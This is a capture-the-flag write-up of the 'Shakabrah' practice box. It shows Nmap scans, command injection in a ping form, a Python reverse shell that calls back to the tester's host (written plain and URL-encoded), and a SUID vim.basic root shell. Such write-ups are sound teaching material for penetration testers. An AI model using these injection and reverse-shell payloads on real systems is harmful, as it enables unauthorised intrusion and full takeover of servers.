

# PG Play - Shakabrah

#### Ip: 192.168.241.86
#### Name: Shakabrah
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ sudo nmap -p-  --min-rate 10000 192.168.241.86
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 14:51 CDT
Nmap scan report for 192.168.241.86
Host is up (0.066s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.38 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ sudo nmap -sC -sV 192.168.241.86 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 14:52 CDT
Nmap scan report for 192.168.241.86
Host is up (0.067s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33b96d350bc5c45a86e0261095487782 (RSA)
|   256 a80fa7738302c1978c25bafea5115f74 (ECDSA)
|_  256 fce99ffef9e04d2d76eecadaafc3399e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds
```

Navigating to the site we find a "Connection Tester" that will ping supplied IP adresses. 



And we can confirm we can ping localhost:


Playing around with this field a bit, I disvocered we can chain commands after adding a `;` character:


Lets try to exploit this to get a reverse shell:

### Exploitation

Heading over to https://www.revshells.com/ I can grab the following reverse shell one-liner and conveniently URL encoded it there as well:

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.197",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

After URL encoding it and setting up a listener I can navigate to:

192.168.241.86/?host=127.0.0.1;python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.197%22%2C80%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27

Which gets me a reverse shell back!

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ nc -lnvp 80 
listening on [any] 80 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.241.86] 50098
$ whoami
whoami
www-data
$ hostname
hostname
shakabrah
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@shakabrah:/var/www/html$ 
```

From here I can grab the local.txt flag in dylan's `/home` directory:


### Privilege Escalation

Lets go ahead and transfer over a copy of LinPEAS to help enumerate:

Interesting, LinPEAS finds asomething with the SUID bit set called vim.basic. I'm wondering if this is just vim?

We can head over to https://gtfobins.github.io/gtfobins/vim/ and find a couple of commands to try:


We'll need to make sure we use `vim.basic` and `:py3` to account for Python3 being in use on the box.

Lets run:

```text
./vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

Which will give us a root shell and we can grab the final flag:


Thanks for following along!

-Ryan

-------------------------------------------------

